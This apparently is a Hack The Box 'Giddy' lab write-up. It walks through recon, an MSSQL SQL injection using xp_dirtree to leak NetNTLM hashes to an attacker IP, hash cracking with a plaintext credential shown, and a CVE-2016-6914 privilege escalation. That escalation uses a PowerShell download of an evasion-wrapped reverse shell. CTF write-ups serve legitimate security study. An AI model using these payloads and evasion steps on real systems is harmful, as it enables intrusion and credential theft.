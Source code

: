 ```yaml
---
layout: post
title:  "HTB Giddy"
tags: introduction tutorial
---
```

# Recon
1. Nmap scan
```shell
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

# Exploitatio Method 1 MSF
1. Microsoft SQL Server SQLi NTLM Stealer
```shell
use auxiliary/admin/mssql/mssql_ntlm_stealer_sqli
```
2. SMB CAPTURE MODULE
```shell
use auxiliary/server/capture/smb
```
3. USE JOHN TO CRACK THE HASHED PASSWORDS IN FORMAT:netntlmv2
```shell
Stacy : xNnWo6272k7x 
```

# Exploitation Method 2 SQL Injection and BURPSUITE
1. Start Burpsuite and have it ready to intercept
2. On the search field of the website, search for any item from the database and add two dashes.
> caps--

3.  Modified the search-term "cap--" to: 
```shell
' EXEC master.sys.xp_dirtree'\\10.10.14.34\share--
```
4. and we forward the request

5. Start Responder with the -I tun0 option to set up a smbserver to capture NetNTLM hash

6. Use John to crack teh hash
```shell
Stacy : xNnWo6272k7x 
```

# Privilege Escalation Ubiquiti and Phantom evasion
1. An program installed called Ubiquiti Unifi Video is vulnerable to local priv-esc CVE-2016-6914
2. We create a msfvenom shell and uploaded to the target machine.
```shell
powershell wget "http://10.10.14.14/taskkill.exe" -outfile "taskkill.exe" 
```
3. However antivirus detects our malicius shell and blocks its execution.
4. We download and install Phantom-evasion
```shell
https://github.com/oddcod3/Phantom-Evasion
```
5. We set the parameters with a windows 64 reverse shell and create and transfer "taskkill.exe to our target machine
```shell
powershell wget "http://10.10.14.14/taskkill.exe" -outfile "taskkill.exe" 
```
6. We proceed to set up multi/handler to catch out shell with a 64 windows payload
7. We type Stop-Service "Ubiquiti Unifi Video" to shutdown the program
8. Then we use Start-Service Ubiquiti Unifi Video" to restart the program
9. Finally we obtain a "NT Authority\system" shell

|Flags| Hash|
|----|-----|
|Root | CF559C6C121F683BF3E56891E80641B1 |
|User|10C1C275385280605E96ADD808C1A0AD |

